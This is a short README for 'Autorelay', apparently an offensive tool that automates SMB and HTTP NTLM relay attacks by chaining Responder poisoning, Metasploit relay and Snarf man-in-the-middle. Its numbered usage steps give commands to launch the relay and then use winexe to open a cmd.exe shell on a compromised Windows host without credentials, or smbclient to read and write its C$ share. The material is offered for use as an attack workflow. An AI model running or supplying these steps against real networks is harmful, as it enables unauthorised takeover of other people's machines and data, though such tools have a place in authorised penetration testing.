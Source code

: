 # Autorelay

Automatically performs the SMB relay attack. Uses Responder to poison, Metasploit for HTTP NTLM relay (rather than just SMB relay), and Snarf for the MITM'ing. 


## Usage

1. pip install -r requirements

2. python autoresp.py -i [interface] -x [nmap xml file]

3. Point your browser to http://localhost:4001 and refresh it periodically to see your MITM'd connections

4. After a connection is expired (or you expire it), click "choose"

5. run: winexe //127.0.0.1 -U "a%a" cmd.exe

6. If your SMB connection had admin rights, you now have a shell without any credentials.

7. Failing that, try: smbclient -U a%a //127.0.0.1/C$ and you should now have the ability to upload and download stuff from the compromised system
